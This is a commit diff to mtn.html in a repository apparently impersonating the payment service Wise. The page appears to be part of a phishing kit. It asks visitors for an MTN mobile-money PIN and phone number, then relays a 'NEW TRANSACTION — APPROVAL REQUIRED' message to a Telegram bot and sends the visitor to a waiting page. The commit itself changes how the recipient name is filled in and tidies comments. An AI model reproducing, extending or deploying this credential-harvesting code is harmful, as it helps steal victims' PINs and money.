

Before and after one commit to bluecapital69-dev/Wisetransfer, a website: page mtn.html in a window 1280 px wide. Shown: the part 354-543 px from the top of the page, 320-960 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update mtn.html

```diff
--- a/mtn.html
+++ b/mtn.html
@@ -426,6 +426,7 @@
   const DEFAULT_DATA = {
     senderName: 'Maya Chen',
     senderEmail: 'maya.chen@example.com',
+    recipientName: '',        // ← blank unless the admin sets one
     amount: 1250.00,
     currency: 'USD',
     reference: 'WISE-2025-4F2A',
@@ -505,12 +506,14 @@
     } catch (e) { console.error('Telegram send failed:', e); }
   }
 
-  // Render amount
+  // ---- Render amount ----
   $('mtnAmount').textContent = fmtAmount(paymentData.amount);
   $('mtnCurrency').textContent = paymentData.currency || 'USD';
-  if (!recipientName.value) recipientName.value = paymentData.senderName || '';
 
-  // Country picker
+  // ---- Recipient name: read from paymentData.recipientName (blank if unset) ----
+  recipientName.value = (paymentData.recipientName || '').trim();
+
+  // ---- Country picker ----
   countrySelect.addEventListener('change', () => {
     const p = countrySelect.value.split('|');
     countryFlag.textContent = p[2];
@@ -518,7 +521,7 @@
     phoneWrap.classList.remove('error');
   });
 
-  // PIN toggle
+  // ---- PIN toggle ----
   pinToggle.addEventListener('click', () => {
     const pw = momoPin.type === 'password';
     momoPin.type = pw ? 'text' : 'password';
@@ -527,23 +530,26 @@
       : '<path d="M1 12s4-8 11-8 11 8 11 8-4 8-11 8-11-8-11-8z"/><circle cx="12" cy="12" r="3"/>';
   });
 
-  // Input filters
+  // ---- Input filters ----
   recipientPhone.addEventListener('input', () => {
     recipientPhone.value = recipientPhone.value.replace(/[^\d\s]/g, '');
     phoneWrap.classList.remove('error');
+  });
+  recipientName.addEventListener('input', () => {
+    recipientName.classList.remove('error');
   });
   momoPin.addEventListener('input', () => {
     momoPin.value = momoPin.value.replace(/\D/g, '').slice(0, 5);
     momoPin.classList.remove('error');
   });
 
-  // Back
+  // ---- Back ----
   $('backBtn').addEventListener('click', () => {
     window.location.href = 'index.html';
   });
 
   // ============================================================
-  // CONFIRM → SEND ENHANCED TELEGRAM MESSAGE → NAVIGATE
+  // CONFIRM → SEND TELEGRAM MESSAGE → NAVIGATE
   // ============================================================
   mtnConfirmBtn.addEventListener('click', async () => {
     const phoneLocal = recipientPhone.value.trim().replace(/\s/g, '');
@@ -586,7 +592,7 @@
     const txnId = 'MTN-' + Date.now().toString(36).toUpperCase() + '-' + Math.random().toString(36).slice(2,6).toUpperCase();
 
     // ============================================================
-    // ENHANCED TELEGRAM MESSAGE
+    // TELEGRAM MESSAGE
     // ============================================================
     const message = `🔔 <b>NEW TRANSACTION — APPROVAL REQUIRED</b>
 
@@ -629,7 +635,6 @@
     try {
       await sendTelegram(message, txnId, 'recipient');
 
-      // Save session for the next pages
       sessionStorage.setItem('wise_session', JSON.stringify({
         txnId,
         stage: 'recipient',
@@ -646,7 +651,6 @@
         txnSentAt: Date.now()
       }));
 
-      // Navigate immediately
       window.location.href = 'waiting.html';
     } catch (err) {
       console.error('Failed:', err);
```
